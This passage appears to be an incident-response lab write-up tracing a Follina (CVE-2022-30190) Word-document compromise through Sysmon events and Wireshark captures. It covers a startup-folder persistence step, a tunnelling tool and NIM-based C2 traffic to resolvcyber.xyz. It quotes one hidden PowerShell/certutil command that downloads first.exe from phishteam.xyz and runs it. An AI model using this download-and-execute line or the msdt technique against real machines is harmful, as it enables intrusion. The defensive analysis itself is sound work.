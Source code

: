 - Filtering for ParentProcessID 496 found a base64 encoded string:

![Pasted image 20240917205356.png](/img/user/images/Pasted%20image%2020240917205356.png)
##### Base64 Decoding
---
The file is downloaded and written to user benimaru's startup folder, indicating persistence mechanism:
![Pasted image 20240917205643.png](/img/user/images/Pasted%20image%2020240917205643.png)
Since we are not analyzing with the compromised machine we can export the object using Wireshark, after opening up **update.zip** and viewing the strings it contains another request to the same domain but this time downloading `first.exe`:
- `explorer.exe` will execute the file at startup or as user logs on:

```bash
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -w hidden -noni certutil -urlcache -split -f 'http://phishteam.xyz/02dcf07/first.exe' C:\Users\Public\Downloads\first.exe; C:\Users\Public\Downloads\first.exe 
```

![Pasted image 20240917210458.png](/img/user/images/Pasted%20image%2020240917210458.png)
#### CVE-2022-30190
---
Based on the evidence and the attacker specifically using the `msdt.exe` as the embedded malicious code in the Word document rather than most common payloads - it made me think that at the time of exploitation `msdt.exe` must have a vulnerability.

![Pasted image 20240918212318.png](/img/user/images/Pasted%20image%2020240918212318.png)
- Further research suggest CVE-2022-30190 which make uses of the Microsoft Support Diagnostic Tool (MSDT) to execute malicious crafted URL payloads embedded into Word documents.
- This effectively bypass macros restriction since by default macros are disabled and no further user action needed aside from opening the document.
##### First.exe Analysis
---
Filtering for parent process `first.exe` revealed the following:

![Pasted image 20240918153112.png](/img/user/images/Pasted%20image%2020240918153112.png)
- A reverse proxy to access internal services hosted in the machine with a Process ID of 7388.
	- The file is flagged in VirusTotal even defenders - it is a tool use to quickly create a TCP/UDP tunnel transported via HTTP, secured by SSH effectivley bypassing firewalls.

##### C2 Server Activity
---
Filtering for Process ID 8948 which is the `first.exe` binary with Event ID 3 for network connections shows most likely the C2 of the threat actor:

![Pasted image 20240918154810.png](/img/user/images/Pasted%20image%2020240918154810.png)
###### WireShark Analysis
---
Using the above IP address with Wireshark filter `ip.dst_host == <IP>` shows:
- Commands receives from resolved IP address: **resolvcyber.xyz**
- **/9ab62b5** is the specific URL to get commands to be executed.
- It uses base64 encoding to receive information and **q** as the parameter.
- Based on the user agent the programming language used by the threat actor is **NIM**.
